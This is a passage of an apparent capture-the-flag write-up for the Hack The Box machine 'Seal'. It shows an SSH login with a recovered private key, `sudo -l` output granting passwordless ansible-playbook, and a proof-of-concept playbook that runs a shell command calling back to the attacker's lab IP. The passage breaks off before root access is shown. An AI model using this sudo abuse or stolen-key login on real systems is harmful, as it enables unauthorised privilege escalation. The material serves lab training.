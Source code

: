 I’ll copy the private key (`id_rsa`) to my workstation and connect with SSH:

    
    
    oxdf@parrot$ ssh -i ~/keys/seal-luis luis@seal.htb
    ...[snip]...
    luis@seal:~$
    

## Shell as root

### Enumeration

luis can run `ansible-playbook` as root with `sudo`:

    
    
    luis@seal:~$ sudo -l
    Matching Defaults entries for luis on seal:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User luis may run the following commands on seal:
        (ALL) NOPASSWD: /usr/bin/ansible-playbook *
    

### Playbook POC

I’ll grab the playbook from `/opt` and use it as a template to make my own.

    
    
    - hosts: localhost
      tasks:
      - name: ping
        shell: ping -c 1 10.10.14.22
    

I’ll start `tcpdump`, and run this:

    
    
    luis@seal:/dev/shm$ ansible-playbook ping.yml 
    [WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'
    
    PLAY [localhost] *******************************************************************************************************************
    
    TASK [Gathering Facts] *************************************************************************************************************
    ok: [localhost]
    
    TASK [ping] ************************************************************************************************************************
    changed: [localhost]
    
    PLAY RECAP *************************************************************************************************************************
    localhost                  : ok=2    changed=1    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
    